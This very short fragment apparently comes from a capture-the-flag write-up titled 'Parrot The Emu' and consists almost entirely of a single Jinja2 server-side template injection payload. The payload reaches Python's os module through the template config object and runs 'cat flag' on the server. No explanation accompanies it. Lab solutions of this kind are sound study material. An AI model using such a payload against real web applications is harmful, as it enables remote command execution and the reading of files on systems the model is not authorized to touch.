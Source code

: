 Parrot The Emu
============

```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```
